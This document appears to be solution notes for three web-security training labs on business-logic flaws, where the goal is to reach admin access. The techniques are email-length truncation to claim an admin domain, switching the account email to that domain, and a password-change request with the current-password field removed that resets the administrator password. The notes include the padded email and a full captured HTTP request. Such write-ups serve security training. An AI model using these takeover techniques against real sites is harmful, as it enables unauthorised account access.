 ### Lab: Inconsistent handling of exceptional input

Task: Login as admin and delete Carlos

Solution: Maximum length of email string stored and recognised is 255. Try registering for an email with more than 255 characters and see what happens. Make use of the given email server. `@dontwannacry.com` is 17 characters long. Hence, you account name of your email address should be 238 characters long. Since our email server can receive mails from subdomains as well, then we can just pad `dontwannacry.com.` in front of it such that we receive the account activation email in our mail server. When we log in to our created email, we see that it only reads the first 255 characters of our registered email address, and if it ends with `@dontwannacry.com`, then the server will treat us as an admin!

Email Address: `CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC@dontwannacry.com.YOUR-EMAIL-ID.web-security-academy.net`

### Lab: Inconsistent security controls

Task: Login as admin and delete Carlos

Discover `/admin`: Target -> Sitemap -> Right-click on URL -> Engagement Tools -> Discover Content

Solution: Create an email with the given email domain server to activate account and confirm registration. Login as that user. Change registered email to one which ends with `@dontwannacry.com`.

### Lab: Weak isolation on dual-use endpoint

Task: Login as admin and delete Carlos

Solution: Remove `current-password` field, and realise that the application does not verify if current password is correct or not. Set username field to administrator to set new password for administrator.

Burp Request

```
POST /my-account/change-password HTTP/1.1
Host: 0a6d002f03bc7293c0324a2e00160028.web-security-academy.net
Cookie: session=QiJ05qRScVAls6lytWdqshXWWn2Z9TEE
Content-Length: 112
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a6d002f03bc7293c0324a2e00160028.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6d002f03bc7293c0324a2e00160028.web-security-academy.net/my-account/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

csrf=eHwgfkgnQ0t3ndpNKTLS1joHlpbKj949&username=administrator&new-password-1=asd&new-password-2=asd
```
